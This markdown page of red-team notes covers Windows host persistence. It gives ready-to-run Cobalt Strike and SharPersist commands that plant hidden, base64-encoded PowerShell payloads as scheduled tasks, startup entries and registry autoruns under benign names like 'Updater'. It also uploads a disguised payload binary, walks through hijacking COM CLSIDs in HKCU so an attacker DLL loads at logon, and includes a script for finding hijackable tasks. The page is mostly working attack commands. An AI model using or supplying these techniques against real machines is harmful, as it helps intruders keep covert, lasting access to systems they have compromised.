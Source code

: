 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Persistence
---
```


<span style="font-size: 35px; color:red"><b>Host Persistence</b></span>
&nbsp;
<span style="font-size: 25px; color:white"><b>Task Scheduler</b></span>
Like cronojobs in Linux.
From Powershell, encode the payload in base64 to avoid dealing with quotations.
On Windows:
```powershell
$str = '<example_powershell_command_i.e._download_cradle>'
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
```
On Linux:
```powershell
set str '<example_powershell_command_i.e._download_cradle>'
echo -en $str | iconv -t UTF-16LE | base64 -w 0
```
Then from CobaltStrike:
```powershell
execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc <encoded_payload_b64>" -n "Updater" -m add -o hourly
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Startup Folder</b></span>
Applications, files and shortcuts within a user's startup folder are launched automatically when they first log in. 
From CobaltStrike:
```powershell
execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc <encoded_payload_b64>" -f "UserEnvSetup" -m add
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Registry Autorun</b></span>
AutoRun values in HKCU and HKLM allow applications to start on boot. 
From Cobalt Strike:
```powershell
cd C:\ProgramData
upload C:\Payloads\http_x64.exe
mv http_x64.exe updater.exe
execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>COM Hijacks</b></span>
<span style="color:red">HKCU and HKLM</span>
Finding instances of applications loading objects that for some reason don't exist anymore.
Using [ProcessMonitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) from Sysinternals, look for <span style="color:red">RegOpenKey</span> operations where the Result is <span style="color:red">NAME NOT FOUND</span> and the Path ends with <span style="color:red">InprocServer32</span>.
Look for someone that's loaded semi-frequently (i.e. something that loads when a common application is started - Excel, Word, Outlook...).
Check that the entry you've chosen exists in HKLM, but not in HKCU:
```powershell
Get-Item -Path "HKLM:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32"  <-- this should list the entry
Get-Item -Path "HKCU:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32"  <-- this should return "Cannot find path..."
```
To exploit this, set HKCU path to the .dll exploit:
```powershell
New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}"
New-Item -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}" -Name "InprocServer32" -Value "<path_to_dll_exploit>"
New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32" -Name "ThreadingModel" -Value "Both"
```
To clean-up a COM hijack, simply remove the registry entries from HKCU and delete the DLL.
&nbsp;

<span style="color:red">Task Scheduler</span>
Find tasks that use custom triggers to call COM objects:
```powershell
$Tasks = Get-ScheduledTask

foreach ($Task in $Tasks)
{
  if ($Task.Actions.ClassId -ne $null)
  {
    if ($Task.Triggers.Enabled -eq $true)
    {
      if ($Task.Principal.GroupId -eq "Users")
      {
        Write-Host "Task Name: " $Task.TaskName
        Write-Host "Task Path: " $Task.TaskPath
        Write-Host "CLSID: " $Task.Actions.ClassId
        Write-Host
      }
    }
  }
}
```
Then search the task name in the Task Scheduler and check the Status and the Triggers > Details of the tasks listed with the script above.
```powershell
Get-ChildItem -Path "Registry::HKCR\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}"
```
Check that the entry you've chosen exists in HKLM, but not in HKCU:
```powershell
Get-Item -Path "HKLM:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}" | ft -AutoSize  <-- this should list the entry
Get-Item -Path "HKCU:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}"  <-- this should return "Cannot find path..."
```
Add a duplicate entry into HKCU pointing to our DLL (as above), and this will be loaded once every time a user logs in.
